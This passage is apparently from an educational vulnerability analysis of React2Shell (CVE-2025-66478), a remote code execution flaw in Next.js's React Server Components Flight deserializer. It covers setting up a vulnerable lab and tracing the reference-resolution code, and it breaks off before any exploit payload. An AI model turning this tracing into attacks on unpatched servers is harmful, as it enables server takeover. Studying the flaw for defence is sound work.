This article explores the technical details of React2Shell (CVE-2025-66478), a maximum-severity unauthenticated Remote Code Execution (RCE) vulnerability affecting the Next.js and React ecosystem. We will deconstruct the insecure deserialization flaw of **Flight protocol** within React Server Components and demonstrate how a single crafted HTTP request can lead to full server takeover. This research is intended for educational purposes to help beginners understand the risks of modern server-side rendering architectures. 

## Table of Contents
{: .no_toc }

* TOC
{:toc}


## Introduction

Next.js is a React-based framework developed by Vercel that enables developers to build high-performance web applications by mixing client-side and server-side rendering. At its core is [React Server Components](https://react.dev/reference/rsc/server-components) (RSC), a specialized architecture designed to offload data fetching and rendering logic to the server, reducing the JavaScript bundle size sent to the browser.

A pre-authentication remote code execution vulnerability (dubbed "React2Shell") exists in React Server Components on how the vulnerable code unsafely deserializes payloads from HTTP requests to Server Function endpoints.

Although the root cause is identical, two separate CVEs were issued to track the vulnerability’s upstream presence in the core React library ([CVE-2025-55182](https://react.dev/blog/2025/12/03/critical-security-vulnerability-in-react-server-components)) and its downstream impact on Next.js ([CVE-2025-66478](https://nextjs.org/blog/CVE-2025-66478)), which embeds a pre-compiled version of the vulnerable React code.

We will be focusing on the Next.js vulnerability (CVE-2025-66478) which affects applications using App Router. The [App Router](https://nextjs.org/docs/app) is a file-system based router that uses React's latest features such as Server Components, Suspense, and Server Functions.

| Category          | Versions |
|-------------------|----------|
| **Affected versions** | Next.js 15.x, Next.js 16.x, Next.js 14.3.0-canary.77 and later canary releases |
| **Fixed versions**    | 15.0.5, 15.1.9, 15.2.6, 15.3.6, 15.4.8, 15.5.7, 16.0.7 |

Note: Next.js 13.x, Next.js 14.x stable, Pages Router applications, and the Edge Runtime are not affected.

## Setting Up the Next.js Environment

Follow the steps below to set up the Next.js environment and prepare it for debugging.
1. Install Next.js version 16.0.6 (vulnerable version)
```
avanthika@X1 react2shell % npx create-next-app@16.0.6  
```
Note: npx allows you to run [Node.js](http://Node.js) packages without installing globally.

2. To enable debugging, modify the script in your `package.json` file as follows:
```
{
  "scripts": {
    "dev": "next dev --inspect",
    "build": "next build",
    "start": "next start"
  }
}
```

3. Run the development server

  **Command:**
  ```
  npm run dev 
  ```

4. To view your new Next.js application, navigate to [http://localhost:3000](http://localhost:3000) in your web browser.  
     
5. Debugging with Chrome DevTools

To debug the Next.js server, open Chrome and navigate to [chrome://inspect](chrome://inspect). Under the Remote Target section, you will see your Node.js process. Click on the inspect link to open Chrome DevTools and start debugging your server code, set breakpoints, and step through execution just like in the browser.  


To trigger the React2Shell vulnerability, we need a page that uses Next.js [Server Actions](https://nextjs.org/docs/13/app/api-reference/functions/server-actions), since requests invoking Server Actions are parsed using React’s Flight deserializer. A simple form is sufficient for this purpose.

An example feedback submission form:  
Server Action: src/app/action.ts

```ts
'use server';

export async function submitFeedback(
  username: string,
  category: string,
  feedback: string
) {
  // Placeholder logic
  console.log({ username, category, feedback });

  return { ok: true };
}
```

Now create a page that calls this Server Action via a form.

Page: src/app/page.tsx

```ts
import { submitFeedback } from './actions';

export default function Home() {
  return (
    <main className="min-h-screen bg-gray-100 flex items-center justify-center">
      <div className="w-full max-w-md bg-white rounded-xl shadow-lg p-8">
        <h1 className="text-2xl font-semibold text-gray-800 mb-6 text-center">
          Feedback Portal
        </h1>

        <form action={submitFeedback} className="space-y-4">
          <div>
            <label className="block text-sm font-medium text-gray-700 mb-1">
              Username
            </label>
            <input
              name="username"
              placeholder="Enter your username"
              className="w-full rounded-md border border-gray-300 px-3 py-2 focus:outline-none focus:ring-2 focus:ring-blue-500"
              required
            />
          </div>

          <div>
            <label className="block text-sm font-medium text-gray-700 mb-1">
              Category
            </label>
            <select
              name="category"
              className="w-full rounded-md border border-gray-300 px-3 py-2 bg-white focus:outline-none focus:ring-2 focus:ring-blue-500"
              required
            >
              <option value="">Select category</option>
              <option value="bug">Bug Report</option>
              <option value="feature">Feature Request</option>
              <option value="general">General Feedback</option>
            </select>
          </div>

          <div>
            <label className="block text-sm font-medium text-gray-700 mb-1">
              Feedback
            </label>
            <textarea
              name="feedback"
              rows={4}
              placeholder="Write your feedback here..."
              className="w-full rounded-md border border-gray-300 px-3 py-2 focus:outline-none focus:ring-2 focus:ring-blue-500"
              required
            />
          </div>

          <button
            type="submit"
            className="w-full bg-blue-600 text-white py-2 rounded-md font-medium hover:bg-blue-700 transition"
          >
            Submit Feedback
          </button>
        </form>
      </div>
    </main>
  );
}

```
The page would render like this: 
 
When a user submit the feedback form, the browser sends a POST request like:

```
POST / HTTP/1.1
Host: localhost:3000
Content-Length: 591
Accept: text/x-component
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryQM3MvWrKbW94TfS6
x-nextjs-html-request-id: FFVVVbg8zpB-uZT9OHk2o
Origin: http://localhost:3000
Referer: http://localhost:3000/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundaryQM3MvWrKbW94TfS6
Content-Disposition: form-data; name="1_$ACTION_ID_70e68b3be163cf5d33cd337e2a6a90d2c05412857c"


------WebKitFormBoundaryQM3MvWrKbW94TfS6
Content-Disposition: form-data; name="1_username"

admin
------WebKitFormBoundaryQM3MvWrKbW94TfS6
Content-Disposition: form-data; name="1_category"

feature
------WebKitFormBoundaryQM3MvWrKbW94TfS6
Content-Disposition: form-data; name="1_feedback"

testing
------WebKitFormBoundaryQM3MvWrKbW94TfS6
Content-Disposition: form-data; name="0"

["$K1"]
------WebKitFormBoundaryQM3MvWrKbW94TfS6--
```

This standard [Next.js](http://next.js) Server Action request has several key components:

1. A `'use server'` function is assigned a unique, hashed Action ID by Next.js.  
2. The `Next-Action` header (e.g., 70e68b3...) signals the server which specific server-side function to execute.  
3. The form data field `1\_$ACTION\_ID\_70e68b3...` is the internal representation confirming the Server Action call, matching the header ID for validation.  
4. Arguments (`1\_username`, `1\_category`, `1\_feedback`, etc.) are form fields starting with the prefix 1\_ and are bundled into the FormData object the function expects.

Before diving into the vulnerability itself, it’s important to understand how modern React applications are structured and how data flows between the server and the client.

## How React streams data: The Flight Protocol

**Modern React Architecture**

React applications, especially those using Next.js and React Server Components (RSC) are split into two cooperating environments:

Server:

* Runs React Server Components  
* Has access to the database, file system, and sensitive environment variables  
* This environment is trusted

Client (Browser):

* Renders UI updates  
* Receives data from the server  
* This environment is untrusted

Because these two environments cannot directly share live JavaScript objects, React needs a structured way to serialize server state and send it to the client. This is where the Flight protocol comes in.

* The server streams UI as **chunks** to the client as soon as they are ready.  
* The client assembles the UI using these chunks, resolving references as needed.

**The Flight Protocol**

React Flight is the internal wire protocol used to transmit React Server Components (RSC) from the server to the client. It allows React to stream a UI across the network without sending raw HTML or massive JavaScript bundles.

* Streamable and line-based: Each line in a Flight response is a chunk of data.  
* References: Chunks can reference each other, allowing for streaming, reuse, and lazy resolution (e.g., Promises).

Example Flight Payload:

```
1:I["./button.js",["default"],"Button"]
2:{"name":"John Doe","role":"Admin"}
3:HL["/style.css","style"]
0:["$","div",null,{
  "children":[
    ["$","@1",null,{"label":"Click Me"}],
    ["$","p",null,{"children":"Welcome, "},"$2"]
  ]
}]
```

* Chunk Identifiers (0:, 1:, 2:): Each chunk has a numeric ID for referencing.  
* Chunk Tags:  
  * I (Import): Load a client component  
  * J / JSX arrays: Describe UI structure  
  * L / H: Preload assets like CSS  
* Slots and References ($@1, $2): Placeholders for other chunks or Promises.

**Common Flight Reference Markers:**

| Marker  | Meaning | Description |
| :---: | :---: | :---: |
| $\<id\> | Model Reference | Resolves to another chunk with the given ID |
| $@\<id\> | Promise reference | Treats the referenced chunk as a Promise |
| $B\<id\> | Blob reference | Triggers Blob deserialization via FormData.get() |
| $S\<id\> | Symbol reference | Resolves a javascript symbol |
| $F\<id\> | Function reference | Internal reference to a function |
| :$path | Property traversal | Traverse object properties during resolution |

**Real Flight Response Example**

The server's response to the earlier request includes the actual Flight payload, which is provided below:

```
HTTP/1.1 200 OK
Content-Type: text/x-component
x-action-revalidated: [[],0,0]

:N1766823178082.0981
0:{"a":"$@1","f":"","b":"development"}
1:D{"time":0.2784999907016754}
1:{"ok":true}
```

* **Content-Type: text/x-component** signals this is a Flight payload, not standard HTML or JSON.  
* x-action-revalidated is a Next.js header for cache management.

The user input is fed directly into the Flight deserializer, understanding how references are resolved is crucial for both functionality and security. The flexibility of the protocol while powerful also introduces complexity, which can open the door to subtle vulnerabilities if not handled with care.

Before we dive into the vulnerability, it’s essential to grasp how React Flight serializes and resolves references. This foundation will make the upcoming bug and its exploitation much clearer.

## How Flight Resolves References

React Flight interprets **$-prefixed** strings as instructions rather than data. This section follows that resolution process step by step.

We’ll trace a simple payload like the following to understand how it resolves:

```
------WebKitFormBoundary9CIjetVnj9qvmxoY
Content-Disposition: form-data; name="0"

"$1"
------WebKitFormBoundary9CIjetVnj9qvmxoY
Content-Disposition: form-data; name="1"

{"foo":"bar"}
------WebKitFormBoundary9CIjetVnj9qvmxoY–
```

* Field "0" contains "$1"- a reference to chunk ID 1   
* Field "1" contains a simple JSON object {“foo”:”bar”}

**Step 1: Entry Point \- decodeReplyFromBusBoy()**

*File: next/src/server/app-render/action-handler.ts*

This function decodes data from a Busboy stream, handling fields and files asynchronously.  
Busboy is a Node.js library designed for parsing multipart/form-data from HTTP request bodies or streams.

**Input**: busboyStream (the Busboy stream parsing the multipart data)  
**Code Snippet (simplified):**
```ts
exports.decodeReplyFromBusboy = function (
  busboyStream,
  turbopackMap,
  options
) {
  var response = createResponse(
      turbopackMap,
      "",
      options ? options.temporaryReferences : void 0
    ),  // Creates response object
    pendingFiles = 0,
    queuedFields = [];
  busboyStream.on("field", function (name, value) {
    0 < pendingFiles
      ? queuedFields.push(name, value)  // Queue if files pending
      : resolveField(response, name, value);  // Resolve immediately
  });
  //file handling code 
...
....
....
  busboyStream.on("finish", function () {
    close(response);  // Mark response as complete
  });
  busboyStream.on("error", function (err) {
    reportGlobalError(response, err);  // Handle errors
  });
  return getChunk(response, 0);  // Start deserialization from chunk 0
};
```

* As the multipart data is streamed in, Busboy emits a "field" event for each field.  
    
* When a form-data field is received, if there are pending file uploads, the field is queued; otherwise, it is immediately processed by resolveField.  
    
* The handler calls: `resolveField(response, name, value)`



**Step 2: resolveField(response, key, value)**

*File: next/dist/compiled/react-server-dom-turbopack/cjs/react-server-dom-turbopack-server.node.development.js*

```js
function resolveField(response, key, value) {
      response._formData.append(key, value);
      var prefix = response._prefix;
      key.startsWith(prefix) &&
        ((response = response._chunks),
        (key = +key.slice(prefix.length)),
        (prefix = response.get(key)) && resolveModelChunk(prefix, value, key));
```

* Now, the key=0 and value=”$1”  
    
* The fields are stored within the internal `_formData` map.  
    
* It checks if the key starts with the `_prefix`. In a standard action, the prefix is typically an empty string "". Since "0" starts with "", the condition evaluates to true.  
    
* It then slices out the prefix and then converts the key to a number. (key=0) 
    
* `prefix \= response.get(key)`: Look up this numeric key in the `_chunks` map.  
    
* If a chunk is found, call `resolveModelChunk(prefix, value, key)`.



**Step 3: resolveModelChunk(chunk, value,id)**

```js
function resolveModelChunk(chunk, value, id) {
      if ("pending" !== chunk.status)
        (chunk = chunk.reason),
          "C" === value[0]
            ? chunk.close("C" === value ? '"$undefined"' : value.slice(1))
            : chunk.enqueueModel(value);
      else {
        var resolveListeners = chunk.value,
          rejectListeners = chunk.reason;
        chunk.status = "resolved_model";
        chunk.value = value;
        chunk.reason = id;
        if (null !== resolveListeners)
          switch ((initializeModelChunk(chunk), chunk.status)) {
            case "fulfilled":
              wakeChunk(resolveListeners, chunk.value);
              break;
            case "pending":
            case "blocked":
            case "cyclic":
              if (chunk.value)
                for (value = 0; value < resolveListeners.length; value++)
                  chunk.value.push(resolveListeners[value]);
              else chunk.value = resolveListeners;
              if (chunk.reason) {
                if (rejectListeners)
                  for (value = 0; value < rejectListeners.length; value++)
                    chunk.reason.push(rejectListeners[value]);
              } else chunk.reason = rejectListeners;
              break;
            case "rejected":
              rejectListeners && wakeChunk(rejectListeners, chunk.reason);
          }
      }
    }
```

* If the chunk is `pending`, it updates its status to `resolved_model` and stores the value.  
    
* `resolveListeners` will be an array of functions (or callbacks) that were registered to be notified (or "woken up") when this chunk is resolved.

* As the resolveListeners are not null, the switch case executes and `initializeModelChunk(chunk)` is called.   
    
* Depending on what happens next, it may call wakeChunk to notify listeners, or keep the chunk in a "blocked" state if it’s still waiting for other references.

Note: "resolved_model" means raw data is available but not yet deserialized. If the response were still streaming, it might return a pending chunk.  


**Step 4 : Calling initializeModelChunk()**

```js
function initializeModelChunk(chunk) {
      //code
      try {
        var rawModel = JSON.parse(resolvedModel),
          value = reviveModel(
            chunk._response,
            { "": rawModel },
            "",
            rawModel,
            rootReference
          );

//code

}
```

This function parses the chunk's value as JSON, then calls reviveModel to deserialize it.  
Execution:

* `rawModel \= JSON.parse(“\”$1\””)` → returns “$1”  
* Calls `reviveModel(response, {"": rawModel}, "", rawModel, rootReference)` where `rawModel = "$1"`.  
* Key Values: `resolvedModel = "\”$1\””`, `rawModel = "$1"`.



**Step 5: Inside reviveModel(response, parentObj, parentKey, value, reference)**

```js
function reviveModel(response, parentObj, parentKey, value, reference) {
      if ("string" === typeof value)
        return parseModelString(
          response,
          parentObj,
          parentKey,
          value,
          reference
        );
……..
……..
//code
      }
```

Execution:

* `typeof value === "string"` → True, so calls `parseModelString(response, parentObj, "", "$1", undefined)`.  
* Key Values: `value = "$1"`.



**Step 6: Parsing the Reference \- parseModelString()**

When deserializing, strings starting with "$" are treated as references.

**Input**: response (the response object), obj (parent object, e.g., { "": "$1" }), key (property key, e.g., ""), value (the string "$1"), reference (optional root reference).

```js
function parseModelString(response, obj, key, value, reference) {
  if ("$" === value[0]) {
    // ... other cases ...
    value = value.slice(1);  // Remove "$" -> "1"
    return getOutlinedModel(response, value, obj, key, createModel);
  }
  return value;
}
```

Execution:

* Detects "$" prefix, slices it off to get "1".  
* Calls `getOutlinedModel(response, "1", obj, key, createModel)` to resolve the reference.  
* Output: Delegates to getOutlinedModel with reference "1".



**Step 7: Resolving the Outlined Model \- getOutlinedModel()**

This is the core of reference resolution. It splits the reference, fetches the chunk, and traverses the path.

**Input**: response, reference ("1"), parentObject (e.g., { "": "$1" }), key (""), map (createModel).

```js
function getOutlinedModel(response, reference, parentObject, key, map) {
      reference = reference.split(":");
      var id = parseInt(reference[0], 16);
      id = getChunk(response, id);
      switch (id.status) {
        case "resolved_model":
          initializeModelChunk(id);
      }
      switch (id.status) {
        case "fulfilled":
          parentObject = id.value;
          for (key = 1; key < reference.length; key++)
            parentObject = parentObject[reference[key]];
          return map(response, parentObject);
        case "pending":
        case "blocked":
        case "cyclic":
          var parentChunk = initializingChunk;
          id.then(
            createModelResolver(
              parentChunk,
              parentObject,
              key,
              "cyclic" === id.status,
              response,
              map,
              reference
            ),
            createModelReject(parentChunk)
          );
          return null;
        default:
          throw id.reason;
      }
    }
```

Execution:

* Splits "1" into `["1"]`, parses ID as 1.  
* Calls `getChunk(response, 1)`:

```js
function getChunk(response, id) {
      var chunks = response._chunks,
        chunk = chunks.get(id);
      chunk ||
        ((chunk = response._formData.get(response._prefix + id)),
        (chunk =
          null != chunk
            ? new Chunk("resolved_model", chunk, id, response)
            : response._closed
              ? new Chunk("rejected", null, response._closedReason, response)
              : createPendingChunk(response)),
        chunks.set(id, chunk));
      return chunk;
    }
```

* Here in getChunk(), if:  
  * The requested id is not already stored in the `response._chunks` map, or  
  * The requested id is not in the `_formData`, or   
  * The response is not yet closed

then, it calls the `createPendingChunk()` which creates a new chunk(id=1) with status equals to “pending”.



* Then the control comes back to getOutlinedModel where the id.status is checked, which is pending currently, so `CreateModelResolver()` is called.

**Step 8: createModelResolver(chunk, parentObject, key, cyclic, response, map, path)**

```js
function createModelResolver(chunk, parentObject, key, cyclic, response, map, path) {
      if (initializingChunkBlockedModel) {
